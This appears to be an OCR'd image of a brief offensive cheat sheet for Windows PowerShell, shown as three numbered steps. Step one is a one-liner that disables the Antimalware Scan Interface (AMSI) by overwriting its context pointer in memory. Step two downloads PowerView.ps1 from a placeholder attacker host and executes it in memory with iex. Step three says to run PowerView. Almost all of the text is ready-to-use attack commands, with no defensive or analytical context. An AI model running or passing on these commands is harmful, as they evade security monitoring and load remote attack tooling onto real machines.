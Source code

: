 
1. Bypass AMSI

```PowerShell
PS C:\> $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

2. Load remotely PowerView.ps1 inside memory (iex).

```PowerShell
PS C:\> (new-object system.net.webclient).downloadstring('http://Attacker:port/PowerView.ps1') | iex
```

3. Execute PowerView normally.
